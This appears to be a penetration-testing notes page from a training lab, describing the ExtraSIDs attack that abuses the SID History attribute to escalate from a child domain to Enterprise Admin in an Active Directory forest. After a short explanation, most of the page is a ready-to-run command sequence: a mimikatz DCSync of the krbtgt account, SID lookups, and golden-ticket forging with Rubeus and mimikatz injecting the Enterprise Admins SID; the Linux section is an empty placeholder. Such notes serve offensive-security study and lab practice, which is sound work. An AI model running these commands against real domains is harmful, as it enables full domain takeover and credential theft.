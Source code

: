 By abusing the SID History attribute we can manipulate it to trick the AD into granting **unauthorized admin-level access**.

{% hint style="info" %}
**How does it work?**

1. Understand SID History: SIDs are unique numbers assigned to users and groups. When users move between domains the AD keeps theird old SIDs in SID history attribute, which can be exploited.
2. Why does it work in same AD Forest: SID filtering blocks cross-forest but not inside the same AD. So if attacker from child domain adds Enterpise Admin SID, AD sees them as Enterprise Admin.
{% endhint %}

#### ExtraSIDs Attack from Windows

```powershell
# DCSync
\mimikatz.exe "lsadump::dcsync /user:DEV\krbtgt" exit

# Get SID
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainSID
S-1-5-21-2901893446-2198612369-2488268720

# Get Enterprise Admins SID from Parent Domain
PS C:\Tools> Get-ADGroup -Identity "Enterprise Admins" -Server "inlanefreight.ad"

# Create golden ticket
PS C:\Tools> .\Rubeus.exe golden /rc4:992093609707726257e0959ce3e24771 /domain:dev.inlanefreight.ad /sid:S-1-5-21-2901893446-2198612369-2488268720 /sids:S-1-5-21-2879935145-656083549-3766571964-519 /user:Administrator /ptt

# Create golden ticket with mimikatz
kerberos::golden /user:Administrator /domain:dev.inlanefreight.ad  /sid:S-1-5-21-2901893446-2198612369-2488268720 /krbtgt:992093609707726257e0959ce3e24771 /sids:S-1-5-21-2879935145-656083549-3766571964-519 /ptt
```

#### ExtraSIDs Attack from Linux

```
// Some code
```

